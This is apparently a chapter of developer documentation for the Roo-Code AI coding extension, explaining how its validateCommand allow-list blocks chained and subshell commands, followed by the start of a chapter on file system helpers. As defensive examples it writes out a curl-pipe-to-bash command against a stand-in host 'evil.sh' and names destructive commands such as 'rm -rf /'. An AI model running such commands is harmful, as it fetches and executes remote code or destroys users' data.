







# Chapter 41: Command Validation

Continuing from [Chapter 40: Schemas (Zod)](40_schemas__zod_.md), where we established the importance of data validation using schemas, this chapter focuses on a specific type of validation critical for security and safety: ensuring shell commands requested by the AI are permissible before execution, primarily handled by the `validateCommand` utility.

## Motivation: Preventing Unintended or Malicious Command Execution

Roo-Code's ability to execute commands via the integrated terminal ([Chapter 15: Terminal Integration](15_terminal_integration.md)) and the `execute_command` tool ([Chapter 8: Tools](08_tools.md)) is a powerful feature. However, it also introduces potential risks if the AI generates harmful or unintended commands. Examples include:

*   **Destructive Commands:** `rm -rf /`, `mkfs`, etc.
*   **Security Risks:** `sudo` usage, commands accessing sensitive configuration files, potentially downloading and executing malicious scripts.
*   **Complex/Obfuscated Commands:** Chained commands (`&&`, `||`, `;`, `|`), subshell execution (`$(...)`, `` `...` ``), or heavily quoted commands might obscure the true intent or bypass simpler checks.

While user approval for commands provides a manual safeguard, an automated pre-validation step is crucial to:
1.  **Block Known Dangers:** Prevent obviously dangerous commands or patterns from even being presented to the user.
2.  **Enforce Restrictions:** Allow users or administrators to define a specific list of permitted command prefixes, adopting an "allow-list" approach for stricter control.
3.  **Handle Complexity:** Parse and analyze chained commands and block potentially risky constructs like subshells.

The `validateCommand` utility function, along with its helpers (`parseCommand`, `isAllowedSingleCommand`), provides this pre-validation layer. It is configured through the "Auto-Approve" settings in the UI and used by the `executeCommandTool` before attempting to run any command.

**Central Use Case:** A user configures Roo-Code to *only* allow `git`, `npm`, and `node` commands via the "Allowed Commands" setting. The AI later generates the command `npm install && $(curl -sL https://evil.sh | bash)`.

1.  The AI includes `<execute_command><command>npm install && $(curl ...)</command></execute_command>`.
2.  `Cline` parses this and invokes `executeCommandTool`.
3.  *Before* `askApproval`, `executeCommandTool` retrieves the `allowedCommands` list (`["git", "npm", "node"]`) from settings (via `ContextProxy`).
4.  It calls `validateCommand("npm install && $(curl ...)", ["git", "npm", "node"])`.
5.  The `validateCommand` utility:
    *   Detects the subshell execution `$()`.
    *   Returns `false` immediately.
    *   *Alternatively*, `parseCommand` might split it into `"npm install"` and `"curl -sL https://evil.sh | bash"`.
    *   `isAllowedSingleCommand` checks `"npm install"` against the allow list - it matches `npm`.
    *   `isAllowedSingleCommand` checks `"curl ..."` against the allow list - it does *not* match.
    *   `validateCommand` returns `false` because not all sub-commands are allowed.
6.  `executeCommandTool` receives `false`.
7.  It pushes an error result back to the AI (e.g., `<error>Command blocked: Execution contains disallowed commands or constructs.</error>`) and informs the user via `cline.say`.
8.  The command is never executed.

## Key Concepts

1.  **Pre-Execution Check:** Validation occurs within the `executeCommandTool` *before* user approval (`askApproval`) and *before* interacting with the terminal.
2.  **Allow-List Approach:** The primary mechanism is checking if the command (or each part of a chained command) starts with a prefix present in the user-configurable `allowedCommands` list (managed via [Chapter 35: Settings UI Components (WebView)](35_settings_ui_components__webview_.md)'s `AutoApproveSettings`). An empty list means *no* commands are allowed unless the wildcard `"*"` is present.
3.  **Wildcard (`*`):** If the `allowedCommands` list contains the single entry `"*"`, all commands are permitted (validation effectively bypassed, relying solely on user approval).
4.  **Command Parsing (`parseCommand`):** A utility function (`webview-ui/src/utils/command-validation.ts`) designed to handle complex shell syntax. It splits a command string into individual sub-commands based on chaining operators (`&&`, `||`, `;`, `|`) while respecting quotes (`""`, `''`) and temporarily replacing/ignoring subshell executions (`$(...)`, `` `...` ``) and PowerShell redirections (`2>&1`).
5.  **Subshell Blocking:** The `validateCommand` function explicitly checks for the presence of `$(` or `` ` `` characters in the raw command string and immediately returns `false` if found, preventing subshell execution attempts.
6.  **Prefix Matching (`isAllowedSingleCommand`):** A helper function that checks if a given (sub-)command string, after trimming and lowercasing, `startsWith` any of the prefixes listed in the `allowedCommands` array (also lowercased).
7.  **Validation Logic (`validateCommand`):**
    *   Handles empty commands (returns `true`).
    *   Checks for the wildcard `"*"` in `allowedCommands` (returns `true`).
    *   Checks for and blocks subshell syntax (`$(`, `` ` ``) (returns `false`).
    *   Calls `parseCommand` to split the input into sub-commands.
    *   Iterates through each `subCommand`.
    *   For each `subCommand`, it removes simple PowerShell redirections (`d>&d`) before calling `isAllowedSingleCommand`.
    *   If *any* `subCommand` check fails (`isAllowedSingleCommand` returns `false`), `validateCommand` returns `false`.
    *   If *all* `subCommands` pass, `validateCommand` returns `true`.
8.  **Configuration UI (`AutoApproveSettings.tsx`):** Provides the interface for users to manage the `allowedCommands` list. This includes adding new command prefixes (or `"*"`) and removing existing ones. Changes are saved via `postMessage` and persisted via `ContextProxy` ([Chapter 11: ContextProxy](11_contextproxy.md)).

## Using Command Validation

Validation is primarily invoked by `executeCommandTool`. The configuration happens in the Settings UI.

**1. Configuration (User via `AutoApproveSettings`):**

*   User navigates to Settings -> Auto-Approve.
*   Scrolls to the "Execute Shell Commands" section (visible only if `alwaysAllowExecute` is checked).
*   Uses the input field and "Add" button to add command prefixes like `git`, `npm`, `node`, `echo`.
*   Removes unwanted commands using the "X" button next to each entry.
*   Can add `"*"` to allow all commands.
*   Saves settings. The `allowedCommands` array is saved via `ContextProxy`.

**2. Execution (`executeCommandTool`):**

```typescript
// --- File: src/core/tools/executeCommandTool.ts ---
// (Simplified - Highlighting validation steps)
import { validateCommand } from "../../utils/command-validation"; // Import the validator utility
// ... other imports ...

export async function executeCommandTool(...) {
	const command: string | undefined = block.params.command;
	// ... handle partial/missing command ...

	try {
        // --- Retrieve Allowed Commands ---
        const provider = cline.providerRef.deref();
        const contextProxy = provider?.contextProxy;
        // Get allowedCommands from settings, default to empty array if not set
        const allowedCommands = contextProxy?.getValue("allowedCommands" as any) ?? [];

		// --- 1. Command Validation ---
		if (!validateCommand(command, allowedCommands)) { // Call the validator
			const validationError = "Command blocked: Execution is not permitted based on configuration.";
			cline.recordToolError("execute_command");
			await cline.say("error", validationError);
			pushToolResult(formatResponse.toolError(validationError));
			return; // STOP: Validation failed
		}

        // --- 2. RooIgnore Validation ---
        const ignoredFileAttemptedToAccess = cline.rooIgnoreController?.validateCommand(command);
        if (ignoredFileAttemptedToAccess) {
            // ... handle ignore error, return ...
            return;
        }

		// --- 3. Ask Approval ---
		const didApprove = await askApproval("command", command);
		if (!didApprove) { /* handle rejection, return */ }

		// --- 4. Execute Command ---
		const [userRejected, result] = await executeCommand(cline, command, customCwd);
		// ... handle execution result ...

	} catch (error) { /* ... handle errors ... */ }
}
```
*Explanation:* The tool retrieves the `allowedCommands` list from settings (via `ContextProxy`). It then calls `validateCommand` with the proposed `command` and the `allowedCommands`. If `validateCommand` returns `false`, an error is reported, and execution stops before even asking for user approval.

## Code Walkthrough

### Validation Utilities (`webview-ui/src/utils/command-validation.ts`)

*(Provided in Chapter 40 context)*

*   **`parseCommand(command)`:**
    *   Handles empty input.
    *   Uses multiple `replace` calls with regex placeholders (`__REDIR_`, `__SUBSH_`, `__QUOTE_`) to temporarily remove PowerShell redirections, subshells (`$()`, `` `` ``), and quoted strings, storing the original content in arrays. This simplifies parsing by the `shell-quote` library.
    *   Uses `shell-quote.parse()` on the processed command. This library understands basic shell syntax and splits the command into tokens (strings or operator objects).
    *   Iterates through the `tokens`. If a chain operator (`&&`, `||`, `;`, `|`) is found, the accumulated `currentCommand` is joined and added to the `commands` array, and `currentCommand` is reset. Subshell placeholders (`__SUBSH_`) also trigger a command split, adding the original subshell content as a separate "command" in the list (which allows validation to potentially block it later, although the top-level `validateCommand` blocks them earlier). Other tokens are added to `currentCommand`.
    *   Adds the final `currentCommand`.
    *   Restores the original quote and redirection placeholders in each resulting command string.
    *   Returns the array of parsed sub-commands.
*   **`isAllowedSingleCommand(command, allowedCommands)`:**
    *   Trims and lowercases the input `command`.
    *   Uses `allowedCommands.some(...)` to check if the `trimmedCommand` `startsWith` any (lowercased) `prefix` from the `allowedCommands` list.
*   **`validateCommand(command, allowedCommands)`:**
    *   Checks for empty command, wildcard (`"*"`), and subshell syntax (`$(`, `` ` ``). Returns `true` or `false` accordingly.
    *   Calls `parseCommand` to split the input into `subCommands`.
    *   Uses `subCommands.every(...)` to iterate through each `subCommand`.
    *   Inside the loop, it removes simple PowerShell redirections (`d>&d`) from the `subCommand` before calling `isAllowedSingleCommand`.
    *   Returns `true` only if `isAllowedSingleCommand` returns `true` for *every* sub-command.

### Configuration UI (`webview-ui/src/components/settings/AutoApproveSettings.tsx`)

*(Provided in Chapter 40 context)*

*   **Props:** Receives `allowedCommands?: string[]` and `setCachedStateField` from `SettingsView`.
*   **State:** Manages `commandInput` (the text field for adding new commands).
*   **Rendering:**
    *   Conditionally renders the "Allowed Commands" section only if `alwaysAllowExecute` is true.
    *   Provides a description explaining the allow-list and wildcard (`*`).
    *   Renders a `VSCodeTextField` (`commandInput`) and an "Add" `Button`.
    *   Renders a list of currently allowed commands using `Button` components (with "secondary" variant and an "X" icon).
*   **Interaction:**
    *   **Add:** The "Add" button (`handleAddCommand`) or pressing Enter in the text field checks if the input is non-empty and not already in the list. If valid, it creates a `newCommands` array, calls `setCachedStateField("allowedCommands", newCommands)` to update the local cache in `SettingsView`, clears the input field, and sends a `postMessage({ type: "allowedCommands", commands: newCommands })` to the host for persistent saving.
    *   **Remove:** Clicking the "X" button next to a command filters the `allowedCommands` array to remove that item, calls `setCachedStateField`, and sends the updated list via `postMessage`.

## Internal Implementation

1.  **Configuration:** User defines `allowedCommands` (e.g., `["git", "npm"]`) via `AutoApproveSettings` UI. The list is saved via `ContextProxy`.
2.  **AI Generates Command:** AI suggests `git status && npm run build`.
3.  **Tool Invocation:** `executeCommandTool` receives the command.
4.  **Settings Retrieval:** Tool gets `allowedCommands = ["git", "npm"]` from `ContextProxy`.
5.  **Validation:** Tool calls `validateCommand("git status && npm run build", ["git", "npm"])`.
    *   `validateCommand` checks for `*` (no) and subshells (no).
    *   Calls `parseCommand("git status && npm run build")`.
    *   `parseCommand` (respecting spaces, quotes, etc.) identifies `&&` and returns `["git status", "npm run build"]`.
    *   `validateCommand` iterates:
        *   `subCommand = "git status"`. Calls `isAllowedSingleCommand("git status", ["git", "npm"])`. It checks if `"git status"` starts with `"git"` (true) or `"npm"` (false). Returns `true`.
        *   `subCommand = "npm run build"`. Calls `isAllowedSingleCommand("npm run build", ["git", "npm"])`. It checks if `"npm run build"` starts with `"git"` (false) or `"npm"` (true). Returns `true`.
    *   Since `every` sub-command returned `true`, `validateCommand` returns `true`.
6.  **Tool Continues:** Validation passes. Tool proceeds to `askApproval`.

---

1.  **AI Generates Command:** AI suggests `docker ps`.
2.  **Tool Invocation:** `executeCommandTool` receives `command = "docker ps"`.
3.  **Settings Retrieval:** Tool gets `allowedCommands = ["git", "npm"]`.
4.  **Validation:** Tool calls `validateCommand("docker ps", ["git", "npm"])`.
    *   Checks pass wildcard/subshell.
    *   `parseCommand` returns `["docker ps"]`.
    *   `validateCommand` iterates:
        *   `subCommand = "docker ps"`. Calls `isAllowedSingleCommand("docker ps", ["git", "npm"])`. Checks if `"docker ps"` starts with `"git"` (false) or `"npm"` (false). Returns `false`.
    *   Since `every` failed, `validateCommand` returns `false`.
5.  **Tool Stops:** Validation fails. Tool reports error, returns.

**Sequence Diagram (Validation Process):**

```mermaid
sequenceDiagram
    participant Tool as executeCommandTool
    participant Validator as validateCommand utility
    participant Parser as parseCommand utility
    participant Checker as isAllowedSingleCommand utility
    participant Settings as ContextProxy

    Tool->>Validator: validateCommand(command, allowedCommands)
    Validator->>Validator: Check for '*' or subshells
    alt Wildcard or Subshell found
        Validator-->>Tool: true or false
    else No Wildcard/Subshell
        Validator->>Parser: parseCommand(command)
        Parser->>Parser: Split by '&&', '||', ';', '|' (handling quotes)
        Parser-->>Validator: subCommands[]
        Validator->>Validator: Loop through subCommands
        loop For Each subCommand
            Validator->>Validator: Remove redirections
            Validator->>Checker: isAllowedSingleCommand(cleanedCmd, allowedCommands)
            Checker->>Checker: Check if cleanedCmd starts with any prefix in allowedCommands
            Checker-->>Validator: allowed (boolean)
            alt Command Not Allowed
                Validator-->>Tool: false (breaks loop)
            end
        end
        Note over Validator: If loop completes...
        Validator-->>Tool: true
    end
    alt Validation Returned False
        Tool->>Tool: Handle error (pushResult, say)
        Tool->>Tool: Return (stop)
    else Validation Returned True
        Tool->>Tool: Proceed (ignore check, approval)
    end

```

## Modification Guidance

Modifications usually involve adjusting the parsing rules, the allow/deny logic, or the configuration UI.

1.  **Blocking Additional Constructs (e.g., Pipes `|` in Deny Mode):**
    *   **Conceptual Deny Validator:** If using a deny-list approach (`CommandValidator` concept), add a regex like `/\|/` to the `DEFAULT_DENY_PATTERNS`.
    *   **Current Utility (`validateCommand`):** The current utility *parses* pipes but doesn't explicitly block them; it validates the commands *on either side* of the pipe against the allow list. To block pipes entirely, you could add a check `if (command.includes("|")) return false;` near the subshell check in `validateCommand`.

2.  **Making Allow List Check More Sophisticated (e.g., Exact Match Option):**
    *   **`isAllowedSingleCommand`:** Modify this function. Instead of just `startsWith`, check if the `allowedCommands` entry contains a specific flag or syntax (e.g., `"^git$"` for exact match, `"/^git\s/"` for command start). Use `RegExp.test` for regex entries or exact string comparison (`===`) for exact matches, falling back to `startsWith` otherwise.
    *   **UI (`AutoApproveSettings`):** Update the input/display to allow users to specify exact matches or regex patterns, perhaps with a type selector next to the input field.

3.  **Improving `parseCommand` Robustness:**
    *   **Library:** Consider replacing the custom placeholder logic + `shell-quote` with a more comprehensive shell parser library if the current approach fails on complex valid shell syntax (e.g., nested quotes, complex redirections, variable expansion - though expansion is usually best avoided). Be mindful of adding heavy dependencies.
    *   **Testing:** Add more extensive unit tests for `parseCommand` covering various shell syntax edge cases.

**Best Practices:**

*   **Allow List Safety:** An allow list (`allowedCommands`) is generally safer than a deny list, as it only permits explicitly configured commands. However, it requires more upfront configuration by the user.
*   **Block Subshells/Eval:** Explicitly blocking constructs like `$()`, `` ` `` ``, and potentially `eval` is a crucial safety measure.
*   **Clear UI:** The `AutoApproveSettings` UI should clearly explain the allow-list mechanism, the effect of the wildcard (`*`), and provide examples.
*   **Combine Validations:** Always use command validation *in addition* to `.rooignore` file access checks and user approval for defense in depth.
*   **Keep Parsing Focused:** The goal of `parseCommand` here is primarily to split chained commands for individual validation, not to fully interpret or execute shell logic. Avoid over-complicating it.

**Potential Pitfalls:**

*   **Parsing Limitations:** `parseCommand` (even with `shell-quote`) might not perfectly handle all complex or nested shell syntax variations across different shells (bash, zsh, fish, PowerShell, cmd), potentially leading to incorrect splitting or validation results. Subshell detection is basic.
*   **Allow List Too Permissive:** If a user adds a very broad prefix like `"node"` to the allow list, the AI could potentially run arbitrary Node.js scripts (`node malicious_script.js`), bypassing the intended restriction. Prefixes should be reasonably specific.
*   **Wildcard Overuse:** Users relying solely on `"*"` bypass the validation layer entirely.
*   **Obfuscation:** Malicious actors could try to obfuscate commands (e.g., using `base64` decoding + `bash`, variable indirection) to bypass static validation checks. This highlights why validation is a mitigation, not a complete sandbox.
*   **Configuration Errors:** Typos or incorrect prefixes in the `allowedCommands` list will prevent intended commands from running.

## Conclusion

Command Validation, implemented via the `validateCommand` utility and configured through `AutoApproveSettings`, serves as an essential safety mechanism within Roo-Code. By parsing command strings, blocking dangerous subshell constructs, and checking commands against a user-defined allow list *before* execution, it significantly reduces the risk associated with the powerful `execute_command` tool. While not an infallible security boundary, it provides a pragmatic layer of defense against accidental damage and common malicious patterns, working alongside user approval and file access controls to promote safer AI-driven terminal interaction.

Having covered various validation aspects (data, commands), we now return to core utilities, focusing next on those related to interacting with the file system itself: [Chapter 42: File System Utilities](42_file_system_utilities.md).
---
# Chapter 42: File System Utilities

Continuing from [Chapter 41: Command Validation](41_command_validation.md), where we discussed validating shell commands before execution, this chapter shifts back to fundamental operations by focusing on a set of helper functions used throughout Roo-Code for interacting with the user's local file system: the **File System Utilities**.

## Motivation: Robust and Centralized File Operations

Many features within Roo-Code require interaction with the file system:
*   Reading file content to provide context to the AI ([Chapter 24: Mention Handling](24_mention_handling.md), `read_file` tool [Chapter 8: Tools](08_tools.md)).
*   Writing files suggested by the AI ([Chapter 20: DiffViewProvider](20_diffviewprovider.md), `write_to_file` tool [Chapter 8: Tools](08_tools.md)).
*   Checking if files or directories exist ([Chapter 10: CustomModesManager](10_custommodesmanager.md), [Chapter 21: RooIgnoreController](21_rooignorecontroller.md)).
*   Creating directories ([Chapter 14: Task Persistence](14_task_persistence.md), [Chapter 13: CheckpointService](13_checkpointservice.md)).
*   Listing directory contents ([Chapter 17: Tree-sitter Integration](17_tree_sitter_integration.md), hypothetical `list_directory` tool).
*   Deleting files or directories ([Chapter 14: Task Persistence](14_task_persistence.md)).

Directly using Node.js's built-in `fs` module (or `fs/promises`) everywhere can lead to repetitive code, especially for common tasks like ensuring a directory exists before writing, checking existence gracefully, or creating nested directories. Furthermore, consistent error handling and logging across these operations are desirable.

The File System Utilities, typically grouped in `src/utils/fs.ts`, provide a centralized collection of `async` helper functions that wrap common `fs/promises` operations, adding error handling, existence checks, directory creation logic, and consistent logging. This makes file system interactions in other parts of the codebase cleaner, more robust, and easier to manage.

**Central Use Case:** The `saveTaskMessages` function ([Chapter 14: Task Persistence](14_task_persistence.md)) needs to write the `ui_messages.json` file to the task-specific directory (`.../tasks/<taskId>/`).

Without Utilities:
```typescript
// Conceptual code without specific utils
import * as fs from "fs/promises";
import * as path from "path";

async function saveTaskMessagesRaw(messages: any[], taskDir: string) {
    const filePath = path.join(taskDir, "ui_messages.json");
    try {
        // Need to ensure directory exists *before* writing
        await fs.mkdir(path.dirname(filePath), { recursive: true });
        // Write the file
        await fs.writeFile(filePath, JSON.stringify(messages, null, 2));
    } catch (error) {
        console.error(`Failed to save UI messages to ${filePath}:`, error);
        // Need specific error handling logic here
    }
}
```

With Utilities:
```typescript
// Conceptual code using utils
import { safeWriteFile } from "../../utils/fs"; // Import utility
